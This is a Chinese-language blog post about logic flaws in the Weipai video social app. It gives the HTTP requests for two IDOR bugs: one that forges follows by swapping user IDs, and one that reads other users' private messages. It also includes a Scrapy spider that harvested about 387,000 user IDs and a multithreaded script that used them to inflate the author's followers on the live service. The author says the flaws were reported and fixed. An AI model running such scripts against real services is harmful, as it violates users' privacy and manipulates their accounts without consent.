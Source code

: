 ```yaml
---
layout: post
title: 微拍APP漏洞 - 屌丝的从无到有
---
```

> 微拍，是移动互联网最火爆的手机视频社交APP，有着独特的美白美肤等视频特效，在iPhone和安卓手机的应用商店的社交类和摄影类APP榜单都名列前茅，是北京蝈蝈在线科技有限公司的移动端主打产品。微拍也是微拍摄的简称，是指将中心点，重点，特点，优点等一系列突出或者与众不同的地方加以放大或者延伸，将其以图像的形式记录下来的一种拍摄方式。

微拍中有着大量“白富美”每日发表自拍视频，用户量一度上升到几百万，作为新用户如何才能得到宠幸？

#### 1. 漏洞细节

在手机上安装好APP后马上就能看到各种类型的视频，当然这并不是重点。之后打开手机网络代理，电脑监听APP流量，在尝试了一些常见的漏洞后并没有太大的进展，于是转身跑到逻辑漏洞的身边。

其中```关注用户```点击后，会POST一个这样的请求：

    POST /follow_user HTTP/1.1
    Content-Length: 82
    Content-Type: application/x-www-form-urlencoded
    Host: w1.weipai.cn
    Connection: Keep-Alive
    User-Agent: android-async-http/1.4.1 (weipaipro)
    Accept-Encoding: gzip
    Phone-Type: android_2013022_4.2.1
    os: android
    Channel: (
    App-Name: weipai
    Api-Version: 8
    Client-Version: 0.99.9.2
    Device-Uuid: 9609b1be908****e9beb5442166c7bdfd1ad2e22
    Weipai-Token: 54ba****7373c
    Weipai-UserId: 54ba1650a5640b57078b****
    Phone-Number:
    Push-Id: com.weipai.weipaipro
    Kernel-Version: 15
    Com-Id: weipai

    to_user_id=54ba1650a5640b57078b****&from_user_id=53c299e79d67d962598b****&type=add
    
其中```to_user_id```为我的帐号user_id，```from_user_id```为关注用户的user_id，这里将两者进行交换即可完成对方关注指定用户的功能，也就是第一个逻辑漏洞。

除此之外，在这个APP中有着非常核心的功能：```搭讪```，哦不 是对话功能。APP会每隔几分钟向服务器发送请求来及时更新对话消息：

    GET /pm/new?count=20&weipai_userid=54ba1650a5640b57078b**** HTTP/1.1
    Host: pm.weipai.cn
    Connection: Keep-Alive
    User-Agent: android-async-http/1.4.1 (weipaipro)
    Accept-Encoding: gzip
    Phone-Type: android_2013022_4.2.1
    os: android
    Channel: (
    App-Name: weipai
    Api-Version: 8
    Client-Version: 0.99.9.2
    
我们将这个GET请求中的weipai_userid替换为某个用户id，即可查看对方的搭讪记录。哦不！是对话记录。

![/images/84E9D643-B676-43E3-8275-C4A5EFB529F0.png](/images/84E9D643-B676-43E3-8275-C4A5EFB529F0.png)

#### 2. 爬虫配合

无论是第一个“刷粉漏洞”还是后面的“任意消息查看漏洞”，都有一个前提，那就是获取目标用户的```weipai_userid```，不然【刷】和【任意】都是空谈，JUST DO IT :)

我们找到了这个API，他是一个GET请求并提供用户的粉丝列表：

    http://w1.weipai.cn/user_fans_list?count=20&relative=after&uid=50f8ff597f3494a70200****
    
![/images/FE24226A-2302-442E-B9A9-F1D690ED5FAB.png](/images/FE24226A-2302-442E-B9A9-F1D690ED5FAB.png)

爬虫我们使用Scrapy来编写，将随机一个```user_id```作为种子源依次往下爬取数据：

    #!/usr/bin/env python
    # coding=utf-8
    # author=f

    import scrapy
    import json

    from weipai.items import WeipaiItem

    class weipai_spider(scrapy.Spider):
        allowd_domains = ["http://w1.weipai.cn/"]
        start_urls = ["http://w1.weipai.cn/user_fans_list?count=1000&relative=after&uid=50f8ff597f3494a702000066"]

        uid_list = []
        def parse(self, response):
            item = WeipaiItem()
            all_data = json.loads(response.body)
            for id in all_data['user_list']:
                try:
                    if id['user_id'] not in self.uid_list:
                        self.uid_list.append(id['user_id'])
                        item['user_id'] = id['user_id']
                        item['url'] = "http://w1.weipai.cn/user_fans_list?count=1000&relative=after&uid=%s"%id['user_id']
                        yield item
                        yield self.make_requests_from_url(item['url'])
                except Exception,e:
                    pass
                    

吃完晚饭回来，已经爬取了400,000个```user_id```：

    $ weipai  wc weipai_spider_user_id.json
    387451  387451 8186275 weipai_spider_user_id.json

40w的傀儡用户已经够了（白富美与屌丝共存的user_id_list），准备屌丝逆袭。#### 3. 漏洞利用

拥有漏洞与傀儡以后，我们开始走逆袭的第一步，先将粉丝数量刷到顶峰，这里我们需要一个脚本：

    #!/usr/bin/env python
    # coding=utf8
    # author=evi1m0@2015

    import requests
    import threadpool as tp

    f_user = open('./weipai.txt', 'r')
    post_url = 'http://w1.weipai.cn/follow_user'

    def start(test):
        flag = 0
        for user in f_user.readlines():
            post_data = {
                         'to_user_id':'54ba1650a5640b57078b****',
                         'from_user_id': user[:-1],
                         'type': 'add',}
            try:
                req = requests.post(post_url, data=post_data, timeout=5)
                flag += 1
                print '[+] %d : %s' % (flag, req.text)
            except:
                continue

    args = [
        ['http://xxx.com', 'test'],
    ]
    pool = tp.ThreadPool(200)
    reqs = tp.makeRequests(start, args)
    [pool.putRequest(req) for req in reqs]
    pool.wait()
    
![/images/EA36C974-EA66-4D10-98A6-27CA8DF6FA03.png](/images/EA36C974-EA66-4D10-98A6-27CA8DF6FA03.png)

非常轻松的，这个刷粉脚本就完成并RUN了起来，但经过观察后发现速度并不理想，于是我把这个脚本放置到了香港及国外的几台服务器上，然后将user_id列表进行几份切割，便睡了过去。

很快的一觉醒来，梦里并没有美女野兽，登录服务器把脚本纷纷停止，把在一旁不停震动的安卓手机拿起，这时才发现已经收到上百条搭讪，当然粉丝数量也已经到了155,835。

![/images/B2155F4E-EF48-4280-AB14-D315142294D9.png](/images/B2155F4E-EF48-4280-AB14-D315142294D9.png)#### 4. 逆袭

![/images/4201BA71-1953-46FC-93B0-2503711BA3D2.png](/images/4201BA71-1953-46FC-93B0-2503711BA3D2.png)

在顶着“大V”的压力下，我打开搭讪框。哦不！是对话窗口。这时你就会发现，无论是女神屌丝亦或是锥子脸饼子脸，他/她们都在寻找你，小到卖鞋，大到yue否。

既然初衷仅仅是为了JUST DO IT，马上我们将漏洞细节发给了微拍公司，并得到了第一时间修复。

管他女神锥子脸，卖鞋还卖包。伪黑客按下回车合上电脑，删除了这个帐号的一切数据，一切都没发生过。